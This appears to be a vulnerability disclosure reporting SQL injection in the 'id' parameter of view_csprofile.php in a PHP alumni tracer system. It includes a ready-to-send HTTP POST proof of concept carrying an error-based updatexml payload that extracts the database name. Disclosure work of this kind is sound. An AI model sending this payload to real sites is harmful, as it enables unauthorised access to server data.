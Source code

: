 ## Online Graduate Tracer System has sql injection vulnerability


## supplier
https://www.sourcecodester.com/php/15904/online-graduate-tracer-system-college-ict-alumni.html

## Vulnerability file
/tracking/admin/view_csprofile.php

## Vulnerability analysis
<img width="1082" alt="image" src="https://github.com/user-attachments/assets/829ab311-e6cd-485a-a054-38b4f373c9f8">


## describe
There is an unrestricted SQL injection attack in the Online Graduate Tracer System, and the controllable parameter is id. An attacker can obtain sensitive server information through this vulnerability.

POC
```
POST /tracking/admin/view_csprofile.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 93
Origin: http://localhost
Connection: close
Referer: http://localhost/tracking/admin/adminlog.php
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

checking_btn=1&id=1%27+and+updatexml%281%2Cconcat%280x7e%2C%28database%28%29%29%29%2C3%29--+q
```
<img width="1183" alt="image" src="https://github.com/user-attachments/assets/80b4afd0-2bfb-484c-abae-4136c41edf13">






